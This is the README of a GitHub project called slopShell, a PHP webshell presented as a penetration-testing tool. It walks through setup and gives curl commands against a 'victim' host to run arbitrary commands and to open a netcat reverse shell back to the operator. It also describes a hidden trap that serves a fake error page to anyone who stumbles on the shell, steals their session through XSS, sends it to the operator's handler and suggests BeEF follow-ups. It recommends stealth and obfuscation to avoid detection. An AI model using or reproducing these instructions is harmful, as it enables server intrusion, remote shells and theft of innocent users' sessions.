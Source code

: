 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell. 

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

---
## How to interact.

Firstly, you need to choose a valid User-Agent to use, this is kind of like a first layer of protection against your webshell being accidentally stumbled upon by anyone but you. I went with sp/1.1 as its a non typical user-agent used. This can cause red flags in a pentest, and your access or script to be blocked or deleted. So, be smart about it. Code obfuscation wouldnt hurt, I did not add that in because thats on you to decide. To use the shell, there are some presets to aid you in your pen test and traversal of the machine. I did not add much for windows, because I do not like developing for windows. If you have routines or tricks added or know about, feel free to submit an issue with your suggestion and ill add it. An example of how to use this webshell with curl:

`curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v`

or to execute custom commands:

`curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v`

Or to attempt to establish a reverse shell to your machine:

`curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v`

- mthd = the method you want to use to establish the reverse shell, this is predefined in the `$comma` array, feel free to add to it, optional, if it is null, the script will choose for you.
- rhost = you, now this and the rport are not required, as it defaults to using netcat with the ip address in the `$_SERVER["REMOTE_ADDR"]` php env variable.
- rport = your listener port, the default was set to 1634, just because.
- shell = the type of system shell you want to have. I know bash isnt standard on all systems, but thats why its nice for you to do some system recon before you try to execute this command.

Here is the better part of this shell. If someone happens upon this shell without supplying the exact user agent string specified in the script, this shell will produce a 500 error with a fake error page then it will attempt some XSS to steal that users session information and sends it back to a handler script on your server/system. This will then attempt to store the information in a running log file. If it is unable to do so, well the backup is your logs. Once the XSS has completed, this shell will redirect the user back to the root(/) of the webserver. So, youll steal sessions if someone finds this, can even beef it up to execute commands on the server on behalf of the user, or drop a reverse shell on the users browser through Beef or another method. The possibilities are legit endless.

---
## Images of use cases

In browser, navigated to without the proper user-agent string. (1st level of auth)
![](https://github.com/oldkingcone/slopShell/blob/master/in_browser.jpeg?raw=true)

Use in the terminal, which is how this was designed to work, using curl with the -vH "User-Agent: sp1.1" switches.
![](https://github.com/oldkingcone/slopShell/blob/master/use_in_terminal.jpeg?raw=true)

---
## Additional

This was going to remain private. But I decided otherwise.

Do not abuse this shell, and get a signature attached to it, this is quite stealthy right now since its brand new.

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.



If you have enjoyed this script, its is obligatory that you follow me and throw a star on this repo... because future editions will have more features(or bugs) depending on how you look at it.


[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)
